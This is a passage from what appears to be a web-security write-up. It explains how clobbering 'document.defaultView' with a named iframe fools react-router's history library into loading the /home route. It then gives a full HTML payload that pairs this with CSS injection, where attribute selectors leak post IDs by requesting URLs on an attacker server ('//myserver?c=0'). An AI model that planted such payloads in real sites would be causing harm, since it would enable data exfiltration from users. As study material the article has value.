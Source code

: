 Have you ever wondered how it determines the current path? If you look at the code of [createBrowserHistory](https://github.com/remix-run/history/blob/dev/packages/history/index.ts#L364), you can see the following section:

``` js
export function createBrowserHistory(
  options: BrowserHistoryOptions = {}
): BrowserHistory {
  let { window = document.defaultView! } = options;
  let globalHistory = window.history;

  function getIndexAndLocation(): [number, Location] {
    let { pathname, search, hash } = window.location;
    // ...
  }

  // ...
}
```

It is ultimately determined by `window.location.pathname`, and the key point is that this `window` comes from `document.defaultView`, in short, `document.defaultView.location.pathname`.

What does this mean? It means that we can override it with DOM clobbering!

Previously, we mentioned that we cannot override existing window properties, so we cannot override `window.location`. However, it is different for `document`; we can override `document`.

If we place an `<iframe name=defaultView src="/home">` on the page, then `document.defaultView` will be the contentWindow of this iframe, and the src here is `/home`, which is same-origin. Therefore, we can access `document.defaultView.location.pathname` and obtain the pathname of the `/home` page, rendering the content of the home page inside the iframe.

In this way, we can combine it with the CSS injection we discovered earlier. An example is shown below:

``` html
<iframe srcdoc="
  iframe /home below<br>
  <iframe name=defaultView src=/home></iframe><br>
  iframe /home above<br>
  <style>
    a[href^="/post/0"] {
      background: url(//myserver?c=0);
    }

    a[href^="/post/1"] {
      background: url(//myserver?c=1);
    }
  
  </style>

  react app below<br>
  <div id=root></div>
  <script type=module crossorigin src=/assets/index.7352e15a.js></script>
" height="1000px" width="500px"></iframe>
```
